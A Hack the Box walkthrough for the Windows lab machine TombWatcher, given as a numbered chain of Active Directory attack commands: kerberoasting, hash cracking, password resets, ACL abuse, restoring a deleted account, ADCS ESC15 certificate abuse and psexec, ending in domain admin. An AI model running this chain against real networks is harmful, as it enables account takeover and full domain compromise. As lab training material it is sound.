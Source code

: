 # TombWatcher

**Platform: Hack the Box**

**OS: Windows**

**Diffculty: Medium**


## Table of Contents
- [Key Learnings](#key-learnings)
- [Walkthrough](#walkthrough)
- [Remediation Summary](#remediation-summary)


## Key Learnings

- Familiarize myself with enumerating AD networks using Bloodhound
- Abuse GenericAll and ForceChangePassword privileges to change user passwords using *net rpc*
- Exploit GenericWrite privileges by running a targeted kerberoasting attack on vulnerable account
- Abuse DCSync privs to dump SAM and LSA hashes and compromise the Domain Controller by passing the hash
- Use Hashcat to crack .psafe3 file


## **Disclaimer: Potential spoilers below**


## Walkthrough

1. Run nmap scan

![image](https://github.com/user-attachments/assets/38c052d5-4737-4dd6-a5ab-eddd228b28da)

2. With Henry's credentials, enumerate network using Bloodhound. Found high-level path to machine

![image](https://github.com/user-attachments/assets/acff890c-ed2b-45b7-a016-f0f7f93aebef)

3. With Henry's credentials, do a targeted kerberoast attack on Alfred

`targetedKerberoast.py -v -d tombwatcher.htb -u henry -p H3nry_987TGV!`

4. We crack the hash using hashcat and we get Alfred's password: basketball

`hashcat -m 13100 hash.txt /usr/share/wordlist/rockyou.txt`

![image](https://github.com/user-attachments/assets/60b15e59-d3fe-4e3a-b44e-e668b79b5e84)

5. Add Alfred to Infrastructure group using BloodyAD

`sudo python3 /opt/bloodyAD/bloodyAD.py --host 10.129.47.3 -d TOMBWATCHER.HTB -u ALFRED -p basketball add groupMember INFRASTRUCTURE ALFRED`

6. Get GMSA password using netexec

`nxc ldap 10.129.47.3 -u alfred -p basketball --gmsa`

![image](https://github.com/user-attachments/assets/cbdf43c4-6647-4fa9-a0a3-e2b0588ebf90)

7. Ansible_dev$ has ForceChangePassword priv on Sam. Use ansible_dev$'s hash to change Sam's password

`sudo python3 /opt/bloodyAD/bloodyAD.py --host 10.129.47.3 -d TOMBWATCHER.HTB -u "ansible_dev\$" -p ":4b21348ca4a9edff9689cdf75cbda439" set password sam Password1`

8. Sam has WriteOwner privilege on John. Change John's owner to Sam using Impacket's owneredit.py script

`sudo python3 /usr/lib/python3/dist-packages/impacket/examples/owneredit.py -action write  -target 'John' -dc-ip 10.129.47.3 -new-owner 'sam' 'tombwatcher.htb'/'sam':'Password1'` 

![image](https://github.com/user-attachments/assets/7aaa18a9-d749-4a41-9860-1e97ad98812f)

9. Now that Sam is owner of John, give Sam FullControl rights on John's account with Impacket's dacledit.py script.

`sudo python3 /usr/lib/python3/dist-packages/impacket/examples/dacledit.py -action 'write' -rights 'FullControl' -principal 'sam' -target 'john' 'tombwatcher.htb'/'sam':'Password1' -dc-ip 10.129.47.32.88`

10. Can now change John's password

`sudo python3 /opt/bloodyAD/bloodyAD.py --host 10.129.32.88 -d tombwatcher.htb -u sam -p Password1 set password john Password123`

11. John can PSRemote into the machine, so with evil-winrm we gain access to the box and get the user flag!

![image](https://github.com/user-attachments/assets/9622d803-053e-47d6-b7f0-bc889232e4fe)

12. From here, John has GenericAll privileges on the Certificate Services, ADCS, so give John FullControl of ADCS.

`dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal-dn 'CN=JOHN,CN=USERS,DC=TOMBWATCHER,DC=HTB' -target-dn 'OU=ADCS,DC=TOMBWATCHER,DC=HTB' 'tombwatcher.htb'/'john':'Password123' -dc-ip 10.129.32.88`

![image](https://github.com/user-attachments/assets/b35acffb-19d6-4dcc-9fc6-a9ca3e13c40b)

13. Using Powershell, we look for all users in the ADCS group, but returns none.

`Get-ADUser -Filter * -SearchBase "OU=ADCS,DC=TOMBWATCHER,DC=HTB"`

![image](https://github.com/user-attachments/assets/8eff94bc-94ec-48aa-8b0a-1fe221ba5ae6)

14. After considering the title of the box, TombWatcher, we look for deleted objects.

`Get-ADObject -Filter 'ObjectClass -eq "user" -and IsDeleted -eq $True' -IncludeDeletedObjects`

![image](https://github.com/user-attachments/assets/83112f89-da07-42af-ac6f-1d9b82f5faf5)

15. Shows the cert_admin user has been deleted. Let's try to restore the account and enable it again using PowerShell

`Restore-ADObject -Identity 'f80369c8-96a2-4a7f-a56c-9c15edd7d1e3'`

16. Check cert_admin account is restored

`Get-ADUser -Filter * -SearchBase "OU=ADCS,DC=TOMBWATCHER,DC=HTB"`

![image](https://github.com/user-attachments/assets/6a82727a-bf1b-4bcc-9990-d8539361fcef)

17. Success! Now, change cert_admin's password using John's GenericAll privs on that account

`sudo python3 /opt/bloodyAD/bloodyAD.py --host 10.129.47.78 -u john -p Password123 set password cert_admin Summer2025`

18. With cert_admin's account, we naturally enumerate for vulnerable certificate templates with certipy. Certipy returns a WebServer template that's vulnerable to ESC15

`certipy find -u cert_admin -p Summer2025 -dc-ip 10.129.47.78 -enabled -vulnerable`

![image](https://github.com/user-attachments/assets/e0ae6706-66dc-4b5b-96af-89790ca715c9)

19. Using certipy, request the WebServer template with admin's UPN and SID.

`certipy req -dc-ip 10.129.32.88 -ca tombwatcher-CA-1 -u cert_admin -p Summer2025 -template WebServer -upn Administrator@tombwatcher.htb -application-policies 'Client Authentication' -sid 'S-1-5-21-1392491010-1358638721-2126982587-500'`

20. With admin's certificate, we get a root ldap shell on the machine. With the ldap shell, add user John to Domain Admins group

`certipy auth -pfx administrator1.pfx -dc-ip 10.129.32.88 -ldap-shell`

![image](https://github.com/user-attachments/assets/5f2f263b-3bf8-41de-9375-f944d88c163e)

21. Check John is Domain Admin with netexec and then get root shell on the machine using psexec.py

`nxc smb 10.129.32.88 -u john -p Password123`

`psexec.py john:Password123@10.129.32.88`

![image](https://github.com/user-attachments/assets/3688c466-0203-457f-841d-c225bc93a605)

22. Get root flag and pwned!

![image](https://github.com/user-attachments/assets/a0bf96da-888e-4e30-a317-ba3ddc7eb813)


## Remediation Summary
- 


